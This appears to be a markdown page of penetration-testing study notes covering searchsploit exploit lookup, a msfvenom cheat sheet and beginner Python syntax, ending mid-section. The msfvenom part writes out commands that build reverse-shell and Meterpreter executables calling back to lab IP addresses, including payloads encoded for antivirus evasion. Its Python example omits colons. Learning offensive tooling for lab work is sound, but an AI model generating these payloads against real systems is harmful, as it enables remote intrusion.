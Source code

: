 # Exploitation

## SearchSploit - Exploit Database search utility

This tool searches Exploitdb.com and allows the download of offline copies of the exploits found.  This is provided by default in Kali distros.

### Install & Updating

This is already installed on Kali Linux, but you can install it with these commands:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Make sure to update your package to get the most up to date archives:

```bash
searchsploit -u
```

### Storage

- Files are stored in `/usr/share/exploitdb/` 

- The exploits directory divides exploits by OS, architecture, and scripting language.

### Searching

Use the searchsploit utility to search through the archives and display results based on search terms.

```bash
# Search for an exploit by keyword(s)
searchsploit [options] term1 term2...
-w	# Show URL's to Exploit-DB.com rather than the local path
-t	# Search JUST the xploit title (default is title and file's path)

# Examples
searchsploit remote smb microsoft windows
```

Results show two columns by default: the Exploit Title and the Path. 

![image-20220215225418284](.5.Vulnerabilities-Exploitation.assets/image-20220215225418284.png)

- The Exploit Title is a short description of the exploit.  You can preview the exploit to get more details.
- The Path describes the path on ExploitDB.com that could be used to load it in a web browser.  The number corresponds to the ExploitDB ID given to the exploit. 
- The extension shown in the path indicates what language the exploit is written in (Ex:  py = Python)

#### Strict Searches

By default, searchsploit does fuzzy searching to match related items, but for multiple terms this can produce a lot of irrelevant results.  To make it use exactly the terms specified, use the strict search option:

```bash
searchsploit -s TERM1 TERM2
```

#### Exclude terms:

```bash
searchsploit TERM --exclude="NOTHIS|ORTHIS|THISEITHER"
```

### Preview an Exploit

To see details on an exploit:

```bash
searchsploit -x NAME/NUMBER
```

### Downloading an Exploit

Use searchsploit to mirror the exploit:

```bash
searchsploit -m NAME/NUMBER

# Options
# You can specify the exploit by its number (no extension) or the path to the code
```

## Metasploit Framework Venom

This can be run from Bash or from Metasploit.  In MSF, you can use the `msfvenom` command or the `generate` command from within a payload.

### Creating a Payload

The basic formula for creating a payload with msfvenom is:

1. Choose a payload type (this should match whatever application and OS you are targeting)

   ```bash
   # Show all payloads
   msfvenom -l payloads  # You will probably want to grep this output because it's a LONG list
   ```

2. Specify options for the payload (for instance, a reverse shell requires the IP and Port the target should connect back to)

   ```bash
   # Show all options for a payload
   msfvenom -p YOUR_PAYLOAD --list-options
   
   # NOTE: Some older versions of msfvenom use --payload-options instead
   ```

3. Specify a format to create the payload in

   ```bash
   # Show all output options
   msfvenom -l formats
   ```

4. Specify an output file (without this, it will dump the payload to the screen for some options)

5. (OPTIONAL) You can also encode the payload to avoid antivirus.

   ```bash
   # Show all encoders
   msfvenom -l encoders
   ```

### msfvenom Cheat Sheets

Windows x86 Reverse TCP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o win_revtcp_8000.exe
```

Windows x64 Reverse TCP Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format exe -o win_revtcp_8000.exe
```

Linux Meterpreter Payload

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhttp_8001.elf
```

Linux Reverse TCP Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f elf -o lin_met_revhtt_8000.elf
```

### Executable Files

#### Unencoded Executables

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o shell_reverse.exe

# Options
-p	# Payload
-f	# Format
-o	# Output filename
```

#### Encoded Executables

Encoding is normally used to bypass character limitations but also serves as a rudimentary AV evasion technique.  More encoding iterations can be used to evade signature detection.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse.exe

# Options
-e	# Encoder to use
-i	# Number of encoding iterations
```

HINT:  x86\shikata_ga_nai is the best

### Links & Cheat Sheets

https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/

https://netsec.ws/?p=331

# Coding

## Python3 Scripts

This website is an excellent source of information for Python programming:  https://www.w3schools.com/python/default.asp

### Usage

Python is an interpreted programming language, which means code is run directly from files fed into the python interpreter to execute.  Python also has an interactive interpreter where you can enter code line by line directly.

The general syntax to run code in a file is:

```python
python myfile.py
# or
py myfile.py
```

To access the interpreter prompt, simply omit the filenames:

```python
python
# or
py
```

This will bring you to a `>>>` prompt to let you know it is ready to receive your code.  To exit the prompt, type:

```python
# Exit interactive interpreter
exit()
```

### Indention Sensitivity

Python is INDENT SENSITIVE.  You will notice that there are no braces or ending statements to delineate blocks of code.  This is because grouping is handled by indentions.

There is no set amount of spaces or tabs, it just has to be indented at least one space, and it has to be consistent for that block of code.

```python
# This is okay
if 1 > 2
	<This is part of the if>
	<so is this>
<not part of if>

# This is not okay, inconsistent spaces within code block
if 1 > 2
 <This is part of the if>
  <so is this>
<but not this>
```
